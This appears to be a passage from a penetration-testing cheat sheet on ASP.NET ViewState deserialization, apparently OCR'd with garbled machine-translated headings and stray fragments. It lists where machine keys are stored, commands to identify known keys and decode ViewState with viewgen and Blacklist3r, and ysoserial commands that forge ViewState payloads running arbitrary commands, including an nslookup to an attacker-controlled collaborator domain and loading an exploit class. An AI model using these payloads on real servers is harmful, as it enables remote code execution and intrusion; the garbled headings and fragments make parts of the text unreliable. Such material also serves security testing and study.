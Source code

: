 ```xml
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```
常见的！地点！| **web.config** / **machine.config**
* 32-bit
    * C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config
    * C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config
* 64-bit
    * C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config
    * C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config
* in registry when **AutoGenerate** is enabled (extract with https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab)
    * HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4  
    * HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey
```
[!]
{void}
(null)
$0
```
#### Identify known machine key

* Exploit with [Blacklist3r/AspDotNetWrapper](https://github.com/NotSoSecure/Blacklist3r)
* Exploit with [ViewGen](https://github.com/0xacb/viewgen)

```powershell
# --webconfig WEBCONFIG: automatically load keys and algorithms from a web.config file
# -m MODIFIER, --modifier MODIFIER: VIEWSTATEGENERATOR value
$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

# --encrypteddata : __VIEWSTATE parameter value of the target application
# --modifier : __VIEWSTATEGENERATOR parameter value
$ AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata <real viewstate value> --purpose=viewstate --modifier=<modifier value> –macdecode
```

#### 解码！看法！状态！

```powershell
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="

$ AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate  --modifier=CA0B0334 --macdecode
```

PS>$ ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "cmd.exe /c nslookup <your collab domain>"  --decryptionalg="AES" --generator=ABABABAB decryptionkey="<decryption key>"  --validationalg="SHA1" --validationkey="<validation key>"
PS>$ ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\pwn.txt" --generator="CA0B0334" --validationalg="MD5" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"
PS>$ ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "C:\Users\zhu\Desktop\ExploitClass.cs;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.dll;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Web.dll" --generator="CA0B0334" --validationalg="SHA1" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"
